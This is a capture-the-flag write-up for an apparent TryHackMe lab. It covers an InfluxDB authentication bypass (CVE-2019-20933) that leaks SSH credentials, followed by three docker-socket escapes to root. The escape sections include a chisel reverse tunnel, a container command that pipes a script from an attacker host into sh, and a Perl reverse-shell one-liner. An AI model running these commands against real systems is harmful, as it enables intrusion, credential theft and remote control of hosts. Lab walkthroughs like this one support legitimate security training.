## TL;DR

In this challenge we exploit known CVE to get access to the `InfluxDB`. There we can find `ssh` credentials.

Then, we escape the docker in 3 different ways:
1. Download `docker` to remote machine and create container
2. SSH tunneling to local machine, and then use `docker` to create container on the remote host
3. User `docker` api webserver to create container and execute it

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `111` with rpc, port `2222` with ssh, port `8086` with InfluxDB http server and port `55651` with rpc.
```bash
PORT      STATE SERVICE REASON         VERSION                                                                                                               
111/tcp   open  rpcbind syn-ack ttl 62 2-4 (RPC #100000)                                                                                                     
| rpcinfo:                                                                                                                                                   
|   program version    port/proto  service                                                                                                                   
|   100000  2,3,4        111/tcp   rpcbind                                                                                                                   
|   100000  2,3,4        111/udp   rpcbind                                                                                                                   
|   100000  3,4          111/tcp6  rpcbind                                                                                                                   
|   100000  3,4          111/udp6  rpcbind                                                                                                                   
|   100024  1          42823/udp   status                                                                                                                    
|   100024  1          45037/udp6  status                                                                                                                    
|   100024  1          52158/tcp6  status                                                                                                                    
|_  100024  1          55651/tcp   status                                                                                                                    
2222/tcp  open  ssh     syn-ack ttl 61 OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)                                                                          
| ssh-hostkey: 
|   1024 b0:ce:c9:21:65:89:94:52:76:48:ce:d8:c8:fc:d4:ec (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBALOlP9Bx9VQxs4JDY8vovlJp+l+pPX2MGttzN2gGNYABXAVSF9CA14OituA5tcJd5/Nv3Ru3Xyu8Yo5SV0d82rd7L/NF5Relx+iiVF+bigo329wbV3wsIrRQGUYHXiMjAs8WqQR+XKjOm3q4QLVxe/jU1I1ddy6/xO4fL7nOSh3RAAAAFQDKuQDe9pQtmnqvJkZ7QuCGm31+vQAAAIBENh/MS3oHvz1tCC4nZYwdAYZMBj2It0gYCMvD0oSkqL9IMaP9DIt/5G3D9ARrZPeSP4CqhfryIGHS7t59RNdnc3ukEsfJPo23bPBwWdIW7HXp9XDqyY1kD6L3Tq0bpeXpeXt6FQ93rFxncZngFkCrMD4+YytS532qPHMPOWh75gAAAIA7TohVech8kWTh6KIMl2Y61s9cwUqwrTkqJIYMdZ73nP69FD0bw08vyrdAwtVnsqRaNzsVVz9sBOOz3wmp/ZNI5NiuyA0UwEcxPj5k6jCn620gBpMEzVy6a8Ih3yRYHoiVMrQ/PIuoeIGxeYGckCorv8jSz2O3pq1Fnz23FRPH2A==
|   2048 7e:86:88:fe:42:4e:94:48:0a:aa:da:ab:34:61:3c:6e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbBmLBPg9mxkAdEbJGnz0v6Jzo4qdBcajkaIBKewKyz6OQTvyhVcDReSB2Dz0nl4mPCs3UN58hSNStCYXjZcpIBpqz2pHupVlqQ7u41Vo2W8u0nVFLt2U8JhTtA9wE6MA9GhitkN3Qorhxb3klCpSnWCDdcmkdNL0EYxZV53A52VWiNGX3vYkdMAKHAmp/VHvrsIeHozqflL8vD2UIoDmxDJwgXJRsr2iGVU1fL/Bu/DwlPwJkm50ua99yPpZbvCS9EwWki76aEtZSbcM4WHzx33Oe3tLXLCfKc9CJdIW35nBvpe5Dxl7gLR/mCHp2iTpdx1FmpSf+JjO/m2vKwL4X
|   256 04:1c:82:f6:a6:74:53:c9:c4:6f:25:37:4c:bf:8b:a8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHufHfqIZHVEKYC/yyNS+vTt35iULiIWoFNSQP/Bm/v90QzZjsYU9MSt7xdlR/2LZp9VWk32nl5JL65tvCMImxc=
|   256 49:4b:dc:e6:04:07:b6:d5:ab:c0:b0:a3:42:8e:87:b5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJEYHtE8GbpGSlNB+/3IWfYRFrkJB+N9SmKs3Uh14pPj
8086/tcp  open  http    syn-ack ttl 61 InfluxDB http admin 1.3.0
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
55651/tcp open  status  syn-ack ttl 62 1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `sweettoothinc.thm` to my `/etc/hosts`

### Find username and exploit known CVE to get access to db where i can find ssh credentials

I went to port `8086`, we can see it gives us 404 not found



Since I know this is InfluxDD version `1.3.0`, I used [https://exploit-notes.hdks.org/exploit/database/influxdb/](https://exploit-notes.hdks.org/exploit/database/influxdb/), and found out the username can be enumerated at:
```bash
http://sweettoothinc.thm:8086/debug/requests
```



Next, we can use the exploit [https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933), to pass the authentication using the username `o5yY6yya` we found.
```bash
┌──(.venv)─(agonen㉿kali)-[~/thm/SweettoothInc/InfluxDB-Exploit-CVE-2019-20933]
└─$ python __main__.py                
/home/agonen/thm/SweettoothInc/InfluxDB-Exploit-CVE-2019-20933/__main__.py:176: SyntaxWarning: invalid escape sequence '\|'
  |_   _|      / _| |          |  __ \|  _ \  |  ____|          | |     (_) |

  _____        __ _            _____  ____    ______            _       _ _   
 |_   _|      / _| |          |  __ \|  _ \  |  ____|          | |     (_) |  
   | |  _ __ | |_| |_   ___  __ |  | | |_) | | |__  __  ___ __ | | ___  _| |_ 
   | | | '_ \|  _| | | | \ \/ / |  | |  _ <  |  __| \ \/ / '_ \| |/ _ \| | __|
  _| |_| | | | | | | |_| |>  <| |__| | |_) | | |____ >  <| |_) | | (_) | | |_ 
 |_____|_| |_|_| |_|\__,_/_/\_\_____/|____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                                         | |                  
                                                         |_|                  
 - using CVE-2019-20933

Host (default: localhost): sweettoothinc.thm
Port (default: 8086): 8086
Username <OR> path to username file (default: users.txt): o5yY6yya
Host vulnerable !!!

Databases:

1) creds
2) docker
3) tanks
4) mixer
5) _internal

.quit to exit
[o5yY6yya@sweettoothinc.thm] Database:
```



Okay, now I navigated to `creds`, and found the table `ssh`, inside we can find ssh credentials:
```bash
[o5yY6yya@sweettoothinc.thm] Database: creds

Starting InfluxDB shell - .back to go back
[o5yY6yya@sweettoothinc.thm/creds] $ show MEASUREMENTS
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "name"
                    ],
                    "name": "measurements",
                    "values": [
                        [
                            "ssh"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
[o5yY6yya@sweettoothinc.thm/creds] $ select * from ssh
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "time",
                        "pw",
                        "user"
                    ],
                    "name": "ssh",
                    "values": [
                        [
                            "2021-05-16T12:00:00Z",
                            7788764472,
                            "uzJk6Ry98d8C"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
```



Okay, we got this credentials:
```bash
uzJk6Ry98d8C:7788764472
```

we can ssh to this user, remember we use port `2222`
```bash
ssh uzJk6Ry98d8C@sweettoothinc.thm -p 2222 # 7788764472
```



we can grab the user flag:
```bash
uzJk6Ry98d8C@0e829518800b:~$ cat user.txt 
THM{V4w4FhBmtp4RFDti}
```

### Privilege Escalation to Root using write permissions to /run/docker.sock in 3 different ways

When executing linpeas, we can see that we are inside docker container, and we can control the `/run/docker.sock`:


Using `ps aux` we can find the port the api docker is listening to:
```bash
uzJk6Ry98d8C@0e829518800b:~$ ps aux | grep docker
root         1  0.0  0.5  20048  2792 ?        Ss   12:25   0:00 /bin/bash -c chmod a+rw /var/run/docker.sock && service ssh start & /bin/su uzJk6Ry98d8C -c '/initializeandquery.sh & /entrypoint.sh influxd'
uzJk6Ry+  6931  0.0  0.5  19652  2652 ?        S    12:26   0:00 socat TCP-LISTEN:8080,reuseaddr,fork UNIX-CLIENT:/var/run/docker.sock
uzJk6Ry+ 30903  0.0  0.1  11132   952 pts/0    S+   15:30   0:00 grep docker
```

So, we have the socket listening to port `8080`.

We have 3 ways to get docker escape:

### 1: Download docker stand alone to the remote machine

We can find standalone `docker` binaries here [https://download.docker.com/linux/static/stable/x86_64/](https://download.docker.com/linux/static/stable/x86_64/). We will download the `docker-18.09.1.tgz`, we can't use the latest version.

```bash
curl https://download.docker.com/linux/static/stable/x86_64/docker-18.09.1.tgz -O
```



Now, after downloading the docker, we can use it escape the container.
First, list images:
```bash
uzJk6Ry98d8C@0e829518800b:/tmp/docker$ ./docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
sweettoothinc       latest              26a697c0d00f        4 years ago         359MB
influxdb            1.3.0               e1b5eda429c3        8 years ago         227MB
```

Then, create docker container, and use it:
```bash
./docker run -v /:/mnt -it e1b5eda429c3 chroot /mnt sh
```



we can grab all the root flags:
```bash
uzJk6Ry98d8C@0e829518800b:/tmp/docker$ ./docker run -v /:/mnt -it e1b5eda429c3 chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# cat root.txt
THM{nY2ZahyFABAmjrnx}
# find / -name "root.txt" 2>/dev/null
/root/root.txt
/var/lib/docker/aufs/mnt/02e6524cfb18538229cbdf56e6caefecbf12f954b1d27f43cf333911231bb61f/root/root.txt
/var/lib/docker/aufs/diff/20629420626c70a9bdf5807427da0badebc8e5d842cb82ae3ff83822b18c9e2a/root/root.txt
# cat /var/lib/docker/aufs/mnt/02e6524cfb18538229cbdf56e6caefecbf12f954b1d27f43cf333911231bb61f/root/root.txt
THM{5qsDivHdCi2oabwp}
# cat /var/lib/docker/aufs/diff/20629420626c70a9bdf5807427da0badebc8e5d842cb82ae3ff83822b18c9e2a/root/root.txt
THM{5qsDivHdCi2oabwp}
```

### 2: Port tunneling and user our local docker binary

We'll upload `chisel` to port forward the port `8008`, and then we can use our local `docker`.

After uploading, we execute this on our local machine:
```bash
chisel server --reverse -p 1234
```
and on the remote machine:
```bash
./chisel client 192.168.164.248:1234 R:8089:127.0.0.1:8080
```
Now, we can access the socket at port `8089`:
```bash
┌──(agonen㉿kali)-[~/thm/SweettoothInc]                                                                                                                                                                           
└─$ curl http://localhost:8089/images/json -s | jq                                                                                                                                                                
[                                                                                                                                                            
  {                                                                                                                                                          
    "Containers": -1,                                                                                                                                        
    "Created": 1621349458,                                                                                                                                   
    "Id": "sha256:26a697c0d00f06d8ab5cd16669d0b4898f6ad2c19c73c8f5e27231596f5bec5e",                                                                         
    "Labels": {},                                                                                                                                            
    "ParentId": "sha256:213cc0db00922f32cf219291c2f81dfd410304b093a44703927a1db630d7722d",                                                                   
    "RepoDigests": null,                                                                                                                                     
    "RepoTags": [                                                                                                                                            
      "sweettoothinc:latest"                                                                                                                                 
    ],                                                                                                                                                       
    "SharedSize": -1,                                                         
    "Size": 358659530,                                                        
    "VirtualSize": 358659530                                                  
  },                                                                          
  {                                                                           
    "Containers": -1,                                
    "Created": 1499487353,               
    "Id": "sha256:e1b5eda429c335c11c07ea85e63f8a60518af69212f19fe50a2a28717744b384",                                                                         
    "Labels": {},                                    
    "ParentId": "",                                                                                                                                          
    "RepoDigests": [                                 
      "influxdb@sha256:99ef42027ac794b038ceb829537e92881e7648fa8c62c89ce84531d69177a635"                                                                     
    ],                                 
    "RepoTags": [                                                                                                                                            
      "influxdb:1.3.0"                 
    ],                                                                                                                                                       
    "SharedSize": -1,                  
    "Size": 227323286,                 
    "VirtualSize": 227323286
  }                                    
]
```



Okay, notice we need to use older version of docker, we can use the same docker we downloaded before.
```bash
┌──(agonen㉿kali)-[~/thm/SweettoothInc/docker]
└─$ ./docker -H tcp://localhost:8089 images 
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
sweettoothinc       latest              26a697c0d00f        4 years ago         359MB
influxdb            1.3.0               e1b5eda429c3        8 years ago         227MB
```

Now, we can easily use almost the same command as before:
```bash
./docker -H tcp://localhost:8089 run -v /:/mnt -it e1b5eda429c3 chroot /mnt sh
``` 



So, we simply needed to add `-H tcp://localhost:8089`.

### 3: Create container using the docker api webserver

We'll use the official documentation, here [https://docs.docker.com/reference/api/engine/version/v1.52/#tag/Image/operation/ImageList](https://docs.docker.com/reference/api/engine/version/v1.52/#tag/Image/operation/ImageList).

First, get all images:
```bash
curl http://localhost:8080/images/json -s
```
After `jq`:
```json
[
  {
    "Containers": -1,
    "Created": 1621349458,
    "Id": "sha256:26a697c0d00f06d8ab5cd16669d0b4898f6ad2c19c73c8f5e27231596f5bec5e",
    "Labels": {},
    "ParentId": "sha256:213cc0db00922f32cf219291c2f81dfd410304b093a44703927a1db630d7722d",
    "RepoDigests": null,
    "RepoTags": [
      "sweettoothinc:latest"
    ],
    "SharedSize": -1,
    "Size": 358659530,
    "VirtualSize": 358659530
  },
  {
    "Containers": -1,
    "Created": 1499487353,
    "Id": "sha256:e1b5eda429c335c11c07ea85e63f8a60518af69212f19fe50a2a28717744b384",
    "Labels": {},
    "ParentId": "",
    "RepoDigests": [
      "influxdb@sha256:99ef42027ac794b038ceb829537e92881e7648fa8c62c89ce84531d69177a635"
    ],
    "RepoTags": [
      "influxdb:1.3.0"
    ],
    "SharedSize": -1,
    "Size": 227323286,
    "VirtualSize": 227323286
  }
]
```

Then, we want to list all the containers:
```bash
curl http://localhost:8080/containers/json -s
```
and after `jq`
```bash
[
  {
    "Id": "0e829518800b893d1cc82b6f90e1ada3b391b3ae1d08a3aca3565176207b7703",
    "Names": [
      "/sweettoothinc"
    ],
    "Image": "sweettoothinc:latest",
    "ImageID": "sha256:26a697c0d00f06d8ab5cd16669d0b4898f6ad2c19c73c8f5e27231596f5bec5e",
    "Command": "/bin/bash -c 'chmod a+rw /var/run/docker.sock && service ssh start & /bin/su uzJk6Ry98d8C -c '/initializeandquery.sh & /entrypoint.sh influxd''",
    "Created": 1766924728,
    "Ports": [
      {
        "IP": "0.0.0.0",
        "PrivatePort": 22,
        "PublicPort": 2222,
        "Type": "tcp"
      },
      {
        "IP": "0.0.0.0",
        "PrivatePort": 8086,
        "PublicPort": 8086,
        "Type": "tcp"
      }
    ],
    "Labels": {},
    "State": "running",
    "Status": "Up 4 hours",
    "HostConfig": {
      "NetworkMode": "default"
    },
    "NetworkSettings": {
      "Networks": {
        "bridge": {
          "IPAMConfig": null,
          "Links": null,
          "Aliases": null,
          "NetworkID": "cca5827e544907f8ea7da6515efc3e9e4cae93eb15a0cff24fd9514380decf0b",
          "EndpointID": "32199ec95c307d0a8df2a4912c64139b7e7ea5fa049af76fa0d37fd500e6b465",
          "Gateway": "172.17.0.1",
          "IPAddress": "172.17.0.2",
          "IPPrefixLen": 16,
          "IPv6Gateway": "",
          "GlobalIPv6Address": "",
          "GlobalIPv6PrefixLen": 0,
          "MacAddress": "02:42:ac:11:00:02",
          "DriverOpts": null
        }
      }
    },
    "Mounts": [
      {
        "Type": "volume",
        "Name": "b4754572db56b9c65af977f24c84baddca697d3f02719fb5ad1e83851a2ec606",
        "Source": "",
        "Destination": "/var/lib/influxdb",
        "Driver": "local",
        "Mode": "",
        "RW": true,
        "Propagation": ""
      },
      {
        "Type": "bind",
        "Source": "/var/run/docker.sock",
        "Destination": "/var/run/docker.sock",
        "Mode": "",
        "RW": true,
        "Propagation": "rprivate"
      }
    ]
  }
]
```



Okay, I want to create container based on the image `influxdb:1.3.0`, the idea is to create something like this line is doing, I'm giving the penelope payload for reverse shell:
```bash
docker run -v /:/mnt -it influxdb:1.3.0 sh -c "id"
```

Okay, let's create a container:
```bash
curl -X POST http://localhost:8080/containers/create \
  -H "Content-Type: application/json" \
  -d '{
    "Image": "influxdb:1.3.0",
    "Cmd": ["/bin/sh","-c","curl http://192.168.164.248:8081/rev_shell.sh|sh"],
    "Tty": true,
    "OpenStdin": true,
    "HostConfig": {
      "Binds": ["/:/mnt"]
    }
  }'
```

and we got back
```json
{
  "Id": "007ae49859918a7e460135a28b2dbfb9108cc4518f22e05e7a3ab4599371443c",
  "Warnings": null
}
```

Then, we need to start the container:
```bash
curl -X POST http://localhost:8080/containers/007ae49859918a7e460135a28b2dbfb9108cc4518f22e05e7a3ab4599371443c/start 
```


we can view the `stdout` and `stderr`:
```bash
curl 'http://localhost:8080/containers/007ae49859918a7e460135a28b2dbfb9108cc4518f22e05e7a3ab4599371443c/logs?stdout=true&stderr=true'
```

You can see it requested `rev_shell.sh`, however, it isn't exist.



After navigating through [https://www.revshells.com/](https://www.revshells.com/), I found working payload for reverse shell
```bash
perl -e 'use Socket;$i="192.168.164.248";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```



and that's it, we got our reverse shell in 3 different ways.
